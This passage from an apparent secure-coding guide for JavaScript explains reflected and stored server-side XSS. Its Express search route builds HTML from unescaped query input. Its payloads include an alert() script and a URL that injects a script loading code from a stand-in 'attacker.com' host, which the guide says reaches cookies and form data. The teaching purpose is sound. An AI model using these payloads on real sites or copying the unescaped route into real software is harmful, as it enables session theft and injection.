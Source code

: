 Server XSS
==========

As said before "Server XSS" occurs when untrusted data is include in an HTML
response generated by the server. User input is always considered _untrusted_
and _unsafe_ data and it is the most common source of malicious payloads.

Users can supply data to the server through the URL (HTTP `GET` request) or by
filling a form (HTTP `POST` request).

URL parameters are usually used by search engines to send searching keywords to
the server as you can see in Google: your keywords will be visible in the `q`
URL parameter

```
https://www.google.pt/search?q=JS+SCP
```

Following the HTTP request work-flow it will arrive on the server and the value
or `q` parameter will be used to compute the searching results.
Let's assume that there are no results matching your searching criteria. A
common approach to this use case is to write on the screen

```
No results found for "JS SCP"
```

The HTTP request/response is complete and we can easily guess what operations
were done by the server. The following example, illustrates them using an
[Express Node.js web application framework][] router

```javascript
const express = require('express');
const db = require('../lib/db');
const router = express.Router();

router.get('/search', (req, res) => {
  const results = db.search(req.query.q);

  if (results.length === 0) {
    return res.send('<p>No results found for "' + req.query.q + '"</p>');
  }

  // ...
});
```

The `JS SCP` keywords cause no problem, but what if we do search for
`<script>alert(XSS)</script>`?
Th URL will look like

```javascript
https://www.google.pt/search?q=<script>alert(XSS)<%2Fscript>
```

and assuming that there are no results also to this searching keywords, the
server's answer will be

```html
<p>No results found for "<script>alert(XSS)</script>"</p>
```

After receiving and parsing server's HTTP response, you will see written on the
page `No results found for` and a modal window like the one below: your payload
was successfully executed.

<div style="text-align: center">
<img alt="XSS payload execution" src="./images/xss-alert.png" />
</div>

It may look not so bad as "we know" that our searches are not persisted
server-side (and so this is also known as Non-Persistent XSS). This way it won't
affect any other users. Well, an attacker will have only to share the URL on a
side channel like email, social networks maybe with a more "meaningful" payload.

```
https://www.google.pt/search?q=<script>s=document.createElement("script"),s.src="//attacker.com/ms.js",document.body.appendChild(s);<%2Fscript>
```

In this case the payload, creates a new `<script>` element which when appended
to the Document body, will load an external arbitrary JavaScript file, under the
attacker's control. This malicious script will execute on page's context with
granted access to everything a legit script has e.g. cookies, local storage,
form data, etc...

For completeness, users' posts/comments on social networks are great examples of
data sent to the server via an HTTP `POST` request. This data won't be visible
in the URL as it is transfered in the request's message body but the work-flow
is pretty much the same (little differences applies on how the server reads
this data).

Let's say we want to share on a social network how awesome this book is, posting
the following contentw

```
Hey guys you definetly read the JS SCP guide!
<script>alert('it is awesome!')</script>
```

In this case we expect our post/comment to be persisted, perhaps on a database,
so that it will be available to other users and for later readings. This fits a
Persistent XSS scenario: the payload is stored server-side and then served to
other users.